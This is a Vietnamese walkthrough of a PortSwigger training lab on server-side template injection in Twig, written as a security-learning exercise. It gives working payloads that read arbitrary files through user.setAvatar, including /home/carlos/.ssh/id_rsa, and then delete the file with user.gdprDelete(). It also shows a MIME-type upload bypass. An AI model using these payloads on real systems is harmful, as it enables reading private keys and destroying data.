Cuối cùng, submit solution với `q6p9u8bsmykkfubksn8z` em đã giải được bài lab:


### Lab 7: [Server-side template injection with a custom exploit](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-a-custom-exploit)

> This lab is vulnerable to server-side template injection. To solve the lab, create a custom exploit to delete the file `/.ssh/id_rsa` from Carlos's home directory.
>
> You can log in to your own account using the following credentials: `wiener:peter`.
>
> **Warning**
>
> As with many high-severity vulnerabilities, experimenting with server-side template injection can be dangerous. If you're not careful when invoking methods, it is possible to damage your instance of the lab, which could make it unsolvable. If this happens, you will need to wait 20 minutes until your lab session resets.

Truy cập vào lab, em thấy trang web như sau:


Em đăng nhập với tài khoản được cung cấp `wiener:peter`.

Sau khi đăng nhập, em thấy có hai chức năng đáng chú ý là lựa chọn tên hiển thị khi bình luận và cập nhật ảnh đại diện:


Quay trở lại trang chủ, em bình luận "hihi" trong một bài viết:


Bên dưới là POST request khi em nhấn "Submit" chọn tên:


Gửi request đó sang Repeater, em thêm payload `{abc}` vào giá trị của tham số `blog-post-author-display` rồi gửi request để kiểm tra:


Quay lại trang web xem bình luận thì em thấy xuất hiện thông báo lỗi:


Từ lỗi bên trên em xác định được template engine mà trang web đang sử dụng là Twig.

Tiếp theo, em kiểm tra với payload `}}{{7*7}}`:



Xem bình luận và em thấy phép toán đã được đánh giá thành công:


Tiếp đến, kiểm tra chức năng cập nhật ảnh đại diện, em thử tải lên một file văn bản `test.txt` với nội dung là "test" thấy thông báo lỗi như sau:


Vậy là nó kiểm tra MIME type của file mà chúng ta tải lên. Đồng thời lỗi trên cũng chỉ ra trong file `User.php` có một method được gọi là `setAvatar()` với hai tham số là đường dẫn và MIME type của file chúng ta tải lên.

Bên dưới là POST request khi tải file lên:


Em gửi request đó sang Repeater, sửa giá trị của `Content-Type` thành `image/jpg` và đã gửi request thành công:



Bên dưới là GET request tới ảnh đại diện:


Trở lại POST request `/my-account/change-blog-post-author-display`.

Em sử dụng method `setAvatar()` để đặt nội dung của file `User.php` như ảnh đại diện. Em gửi request với payload `}}{{user.setAvatar("/home/carlos/User.php", "image/jpg")}}`:


Reload trang web vừa bình luận và gửi lại GET request `/avatar?avatar=wiener` em nhận được response chứa nội dung của file `User.php`:


Để ý thấy method `gdprDelete()` có thể được dùng để xoá file.

Vậy để xoá được file `/.ssh/id_rsa` mà bài lab yêu cầu, trước tiên em sẽ đặt nó là ảnh đại diện sử dụng payload ``}}{{user.setAvatar("/home/carlos/.ssh/id_rsa", "image/jpg")}}``:


Tiếp đến, em gửi request sử dụng payload `}}{{user.gdprDelete()}}`:


Cuối cùng, quay trở lại reload trang web em đã giải được bài lab:


